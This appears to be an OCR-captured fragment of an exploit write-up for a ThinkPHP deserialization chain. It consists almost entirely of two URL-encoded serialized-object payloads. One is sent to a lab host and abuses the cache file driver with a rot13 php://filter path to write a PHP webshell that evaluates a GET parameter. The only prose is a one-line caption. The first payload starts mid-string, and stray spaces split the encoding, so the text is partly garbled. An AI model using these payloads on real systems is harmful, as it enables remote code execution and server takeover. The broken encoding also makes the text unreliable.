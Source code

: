 ```bash
2%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs% 3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A7%3A%22.%2Fdemo%2F%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds %3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7Ds%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00que ry%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00thin k%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5C cache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%% 3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A7%3A%22.%2Fdemo%2F%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00t ag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7Ds%3A8%3A%22%00%2A%00aaaa%22%3BN%3B%7D%7D%7D)
```
- Write files to this directory
```bash
[payload](http://192.168.246.129/public/index.php?d1no=O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22% 3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A6%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%2 2%3BO%3A27%3A%22think%5Cmodel%5Crelation%5CHasOne%22%3A3%3A%7Bs%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A2%3A%22no%22%3Bi%3A1%3Bs%3A3%3A%22123%22%3B%7Ds%3A15% 3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5 COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A 23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%2 2prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A83%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.rot13%2Fresource%3D.%2Fdemo%2F%3C%3Fcuc+cucvasb%28%29%3Briny%28%24_TRG%5Bq 1ab%5D%29%3F%3E%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAtt r%22%3B%7D%7D%7D%7D%7Ds%3A6%3A%22parent%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession% 5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A %22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A83%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.rot 13%2Fresource%3D.%2Fdemo%2F%3C%3Fcuc+cucvasb%28%29%3Briny%28%24_TRG%5Bq1ab%5D%29%3F%3E%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D %7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7Ds%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%2 2think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3 A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22% 3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A83%3A%22php%3A%2F%2Ffilter%
2Fwrite%3Dstring.rot13%2Fresource%3D.%2Fdemo%2F%3C%3Fcuc+cucvasb%28%29%3Briny%28%24_TRG%5Bq1ab%5D%29%3F%3E%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A% 22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7Ds%3A8%3A%22%00%2A%00aaaa%22%3BN%3B%7D%7D%7D)
```
<img src="https://pic.imgdb.cn/item/611d63c84907e2d39c552b9e.png" alt="">

<img src="https://pic.imgdb.cn/item/611d63c84907e2d39c552ba4.png" alt="">